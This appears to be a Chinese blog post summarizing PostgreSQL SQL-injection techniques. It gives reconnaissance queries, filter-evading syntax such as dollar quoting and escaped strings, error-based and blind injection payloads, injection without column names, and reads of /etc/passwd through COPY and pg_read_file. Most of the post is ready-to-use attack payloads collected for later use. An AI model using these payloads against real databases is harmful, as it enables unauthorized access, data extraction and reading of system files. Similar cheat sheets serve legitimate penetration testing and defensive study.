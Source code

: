 ```yaml
---
layout:     post
title:      Postgresql 注入总结
subtitle:   整理了一下常见的注入方法以备后用（摸鱼结束）
date:       2021-07-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/2f46d34c46d5d8c4a8c14031435eeb21.jpg
catalog: true
tags:
    - SQL
---
```




### 常用语句

```sql
// 查询当前数据库
select current_database();

// 查询当前用户
select current_user;

// 查询当前版本
select version();

// 查询数据库版本
SELECT current_setting('server_version_num');

//查看当前权限
select CURRENT_SCHEMA()        

//查询表数据大小
select pg_size_pretty(pg_indexes_size('users'));


// 查询所有数据库
SELECT datname FROM pg_database WHERE datistemplate = false;
select schema_name from information_schema.schemata

// 查询当前数据库中的所有表
select * from pg_tables where schemaname = 'public';
// 这里的information_schema 是个视图，并不真实存在这个库
select table_name from information_schema.tables where table_schema='public';


// 查询列名
select column_name from information_schema.columns where table_name='表名';


```

### 特性

`||` 是字符串拼接

```sql
select 1||2;
```

`""` 双引号包裹为列名 而不是字符串

```sql
select "username" from users
```

支持的比较运算符还包括`in` 、`not in`、 `exists`  、	`not exists` 	`is`

```sql
select username from users where username in ("admin")

// 判断查询的结果是否有结果
select exists (select * from users where username='') 

select (1=1) is true
```

`#` 不是注释符号 而是运算符号`bitwise XOR`

```sql
select 1#2 
```



支持的注释符号 `/**/`  `--`

 

PostgreSQL允许"逃逸"字符串

> PostgreSQL 还允许 "逃逸"字符串中的内容，这是一个 PostgreSQL 对 SQL 标准的扩展。逃逸字符串语法是通过在字符串前写字母 `E`(大写或者小写)的方法声明的。比如 `E'foo'` 。当需要续行包含逃逸字符的字符串时，仅需要在第一行的开始引号前写上 `E` 就可以了。逃逸字符串使用的是C-风格的反斜杠(`\`)逃逸：`\b`(退格)、`\f`(进纸)、`\n`(换行)、`\r`(回车)、`\t`(水平制表符)。此外还支持 `\*digits*` 格式的逃逸字符(这里的 `*digits*` 是一个八进制字节数值)，以及 `\x*hexdigits*` 格式的逃逸字符(这里的`*hexdigits*` 代表十六进制字节值)。你创建的字节序列是否是服务器的字符集编码能接受的正确字符，是你自己的责任。任何其它跟在反斜杠后面的字符都当做文本看待。因此，要在字符串常量里包含反斜杠，则写两个反斜杠(`\\`)。另外，PostgreSQL 允许用一个反斜杠来逃逸单引号(`\'`)，不过，将来版本的 PostgreSQL 将不允许这么用。所以最好坚持使用符合标准的 `''` 。

```sql
// 八进制
select E'\167\150\157\141\155\151'

// 十六进制
select E'\x77\x68\x6f\x61\x6d\x69'
```



字符串边界界定符号(可以绕过无单引号的情况)

```sql
select $$Dianne's horse$$
```



加解密函数

```
md5()
encode('111','base64')
encode('111','hex')
```







### 类型转化

postgresql 要求查询的时候 类型要一致否则会报错

如下 利用`::`

常用的数据类型有

字符类型  `text、varchar、char`

数字类型 `int(int4) 、 decimal(numeric) 、bigint(int8)、smallint(int2) 、real、double`

布尔类型 `boolean`

时间类型 `timestamp 、 date 、time 、interval`  

```sql
select 1::varchar union select 'a'
```



利用 函数进行转换

```sql
select CAST('5' as char)
```



利用函数转换

```sql
select to_char(1234，'999')
select to_date(text, text)
select to_number('12,454.8-', '99G999D9S')
```



### 获取正在查询的语句

```sql
select current_query()
select query from pg_stat_activity where datname='xx' and state ='active'
```





### 报错盲注

手段挺多的只要让运行时报错即可

```sql
// 类型转换
select case when( ascii(substring((select version()),1,1))=1 ) then 1 else (select 'aaa')::int end;

// 溢出
select exp((select case when( (select 1)=1  ) then 1 else 777 end))

// 1/0
select 1/(select case when( ascii(substring((select version()),1,1))>1 ) then 1 else 0 end)
```



### 报错注入

利用了类型转化来进行报错注入

```sql
select cast((select version()) as numeric)
```

![image-20210616110204731](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210616110204731.png)

```sql
select CAST(('zzzz'||(SELECT COALESCE(CAST(schemaname AS CHARACTER(10000)),(CHR(32))) FROM pg_tables OFFSET 0 LIMIT 1)::text||'zzz') AS NUMERIC)
```





### 无列名注入

同其他sql语言

```sql
select b from (select null, null b, null union select * from users)
```



## 读文件

```sql
copy table(column) from '/etc/passwd'
```

![image-20210615222715266](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210615222715266.png)



```sql
select pg_read_file("/etc/passwd");
```

